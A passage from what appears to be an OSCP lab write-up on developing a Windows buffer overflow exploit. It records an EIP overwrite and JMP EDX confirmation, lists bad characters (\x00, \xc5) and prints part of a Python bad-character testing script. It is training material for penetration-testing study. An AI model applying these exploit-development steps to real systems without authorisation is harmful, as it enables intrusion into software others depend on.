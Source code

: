 ```python
  print "\nCould not connect!"
```

The app crashes at EIP 59595959 and ESP at 03D3FF88
![3635f04663a619c0bcb83a1acde2ff87.png](../../../../_resources/fd17833fb99646db8c3e2e90b8e9a97d.png)

We also confirm we see the JMP EDX code when we follow ESP 03D3FF88 in dump.
![eb8e55b2eadf234c2c7fb6356891aad2.png](../../../../_resources/80e1beb42dd5413c852f3ae05dde32ec.png)


# Identify bad characters
Bad chars are: **\x00\xc5**
The following script was used to check for bad characters, 14 characters at a time. We Follow in Dump the ESP and see if each character is there in the right sequence. If not, we know the bad character is the one not in sequence. Or sometimes the app crashes in a way that we can't follow the ESP at all
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 4_bad_chars.py 
#!/usr/bin/python
import socket

# Bad chars in this script are: \x00\xc5
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
badchars = "\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c"
badchars = "\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a"
badchars = "\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38"
badchars = "\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46"
badchars = "\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54"
badchars = "\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
badchars = "\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars = "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e"
badchars = "\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c"
badchars = "\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a"
badchars = "\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
```